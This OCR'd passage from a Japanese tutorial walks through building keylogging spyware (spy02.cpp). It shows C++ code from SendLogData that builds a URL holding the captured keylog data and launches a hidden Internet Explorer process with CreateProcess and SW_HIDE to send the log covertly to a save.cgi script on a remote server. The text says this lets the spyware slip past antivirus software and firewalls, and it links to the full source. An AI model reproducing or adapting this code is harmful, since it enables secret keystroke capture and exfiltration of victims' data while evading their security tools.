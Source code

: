                  +\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-+
                 | HTTPサーバ（データを保存するCGI） |
                 +\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-+

                                        ↑（接続する）

+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-+（生成）+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-+
| spyware (spy02.cpp) |\-\-\-\-\-\-\->|  Internet Explorer  |
+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-+        +\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-+
（プロセス１）                 （プロセス２）
                                               （図２）

　spy01.cppはプログラムの中でHTTPを利用してアクセスしてましたがspy02.cpp
はCGIへのアクセス処理自体をＩＥに任せます。よって送信したいデータ（キー
ログ）はすべてＩＥに渡すことになります。そしてもちろんＩＥのWindowは非表
示とします。これによって内部でＩＥが起動しこっそりと情報をサーバに送信す
るスパイウェアの完成です。たとえアンチウイルスソフトやファイヤーウォール
が外部への情報漏れをとめようとしても、ＩＥを利用しているならばそう簡単に
防ぐことはできないでしょう。おそらくファイヤーウォールは貫通するはずです。
なぜならＩＥを利用しているということは普通にブラウザでインターネットを閲
覧している状態と変わらないのですから。

+\-\-\- spy02.cpp \-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-+
| http://kenjinet.s26.xrea.com/spy/spy02.cpp |
+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-+

　接続処理を担当するServConnect関数はなくなりました。かわりにSendLogData
関数が長くなりました。

```
BOOL SendLogData(char *MainMemory, UINT len)
{
    int SendAllDataLen;
    SendAllDataLen  \= (int)strlen(PRGRM_NAME);
    SendAllDataLen +\= (int)strlen(HOST_NAME);
    SendAllDataLen +\= (int)strlen(FILE_PATH);
    SendAllDataLen +\= len;

    char *SendAllData \= new char[SendAllDataLen + 16];

    wsprintf(SendAllData,
        "%s http://%s%s?%s\r\n",
        TEXT(PRGRM_NAME), TEXT(HOST_NAME),
        TEXT(FILE_PATH), MainMemory);
```

　SendAllDataが実行すべき文字列になります。まず、ＩＥの絶対パス、空白を
はさんで第一引数に「http://ホスト/パス?送信したいデータ」となります。サ
ーバにおいている保存を受け持つCGIはsave.cgiです。

```
    STARTUPINFO SI;
    ZeroMemory(&SI, sizeof(SI));
    SI.cb          \= sizeof(SI);
    SI.dwFlags     \= STARTF_USESHOWWINDOW | STARTF_USESTDHANDLES;
    SI.wShowWindow \= SW_HIDE;

    PROCESS_INFORMATION PI;
    if(CreateProcess(NULL, SendAllData, NULL, NULL, TRUE, 
        0, NULL, NULL, &SI, &PI) !\= TRUE){
            return TRUE;
    }
```
